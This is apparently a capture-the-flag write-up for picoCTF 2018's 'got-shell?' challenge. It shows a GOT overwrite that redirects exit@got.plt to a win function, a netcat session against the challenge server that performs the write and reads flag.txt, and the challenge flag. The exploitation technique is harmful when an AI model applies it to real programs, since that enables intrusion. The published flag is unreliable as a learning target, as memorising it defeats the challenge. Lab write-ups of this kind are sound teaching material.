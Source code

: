 # got-shell?

`exit` entry in `.got.plt` is located at address `0x0804A014`.

`win` function is at address `0x0804854B`.

If we overwrite `exit@got.plt` with `win` function address, we will get a shell on `exit(1)` call.

```
$ nc 2018shell.picoctf.com 3582
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0804A014
Okay, now what value would you like to write to 0x804a014
0804854B
Okay, writing 0x804854b to 0x804a014
Okay, exiting now...

cat flag.txt
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d3c1afdd}
```

Flag: `picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d3c1afdd}`